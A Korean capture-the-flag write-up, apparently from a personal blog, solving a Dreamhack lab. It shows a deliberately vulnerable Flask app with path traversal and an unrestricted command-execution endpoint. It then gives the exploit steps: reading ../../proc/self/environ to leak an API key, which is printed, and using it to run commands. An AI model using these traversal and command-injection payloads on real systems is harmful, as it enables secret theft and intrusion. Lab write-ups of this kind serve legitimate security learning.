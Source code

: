 ```yaml
---
title: "[2025-07-27] File Vulnerability advanced for Linux"
excerpt: "File Vulnerability 심화"

categories:
  - Problem
tags:
  - [File Vulnerability]

permalink: /Problem/[2025-07-27] File Vulnerability advanced for Linux/

toc: true
toc_sticky: true

date: 2025-07-27
last_modified_at: 2025-07-27
---
```


## 🦥 본문

- main.py

```python
import os, subprocess
from functools import wraps
from flask import Flask, request

app = Flask(__name__)
API_KEY = os.environ.get('API_KEY', None)

def key_required(view):
    @wraps(view)
    def wrapped_view(**kwargs):
        apikey = request.args.get('API_KEY', None)
        if API_KEY and apikey:
            if apikey == API_KEY:
                return view(**kwargs)
        return 'Access Denied !'
    return wrapped_view

@app.route('/', methods=['GET'])
def index():
    return 'API Index'

@app.route('/file', methods=['GET'])
def file():
    path = request.args.get('path', None)
    if path:
        data = open('./files/' + path).read()
        return data
    return 'Error !'

@app.route('/admin', methods=['GET'])
@key_required
def admin():
    cmd = request.args.get('cmd', None)
    if cmd:
        result = subprocess.getoutput(cmd)
        return result
    else:
        return 'Error !'

if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=True)

```

/file API는 이용자가 입력하는 경로에 있는 파일을 읽어들이는 API이다.

/admin API는 cmd 파라미터를 통해 시스템 명령어를 실행하는 파일이다. 이 때 @key_required 데코레이터를 통해 API_Key가 환경 변수에 있는 값과 같은 지를 판단한다. 

즉, file API를 통해 `/proc/self/environ` 에서 환경 변수를 알아내고 그 환경 변수를 통해 admin API에 접근하여 flag를 얻어 내면 된다.

이 때 권한을 확인해야 하는 게 권한 확인 안하고 계속 cmd 값에 cat /flag를 넣으니깐 실행이 안된다. 

### 풀이

1. `file?path=../../proc/self/environ` 을 통해 API_KEY를 가져온다.
    - API_KEY=d22cb18e86fc9e23996650150461c9f794ad3a4f
2. admin API에 API_KEY와 cmd를 파라미터로 접근한다. 이 때 `cmd=ls -al /` 을 입력하여 루트 디렉토리에 권한 까지 확인한다.

```python
http://host8.dreamhack.games:8251/admin?API_KEY=d22cb18e86fc9e23996650150461c9f794ad3a4f&cmd=ls -al /
```

1. ---x--x--x 권한이므로 실행만  가능하고 읽기 권한은 없다 그러므로 `cmd=/flag` 를 통해 실행시켜서 출력시킨다.